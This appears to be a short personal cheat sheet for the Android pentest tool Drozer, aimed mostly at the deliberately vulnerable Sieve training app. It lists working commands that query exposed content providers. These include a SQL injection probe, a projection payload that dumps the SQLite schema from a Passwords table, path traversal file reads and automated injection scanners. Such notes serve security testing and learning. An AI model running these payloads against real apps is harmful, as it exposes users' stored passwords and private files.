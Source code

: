 #### Setup drozer
[Android Penetration Tools Walkthrough Series: Drozer - Infosec Resources (infosecinstitute.com)](https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/)

#### Get drozer shell
	`adb forward tcp:31415 tcp:31415`
	`drozer console connect`

#### Content Providers
- Get info from exposed content providers
	`run app.provider.info -a com.mwr.example.sieve`
	
** Note: content provider queries take the form `content://name.of.package.class/declared_name` **

- Drozer can guess and try several URIs
	`run scanner.provider.finduris -a com.mwr.example.sieve`
- Query Content Provider (database based)
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --vertical`
- Update and delete content provider (database based)
	[Exploiting Content Providers - HackTricks](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers)
- Manual SQL Injection test
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"`
- Manual SQL Lite Dump
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"`
- Automatic SQL Discovery
	`run scanner.provider.injection -a com.mwr.example.sieve`
- Read Files
	`run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts`
- Automatic Path Traversal Discovery
	`run scanner.provider.traversal -a com.mwr.example.sieve`
	
	***
	
### Permissions 
- Examine Permissions and custom permissions
	`run app.package.info -a com.spotify.music`
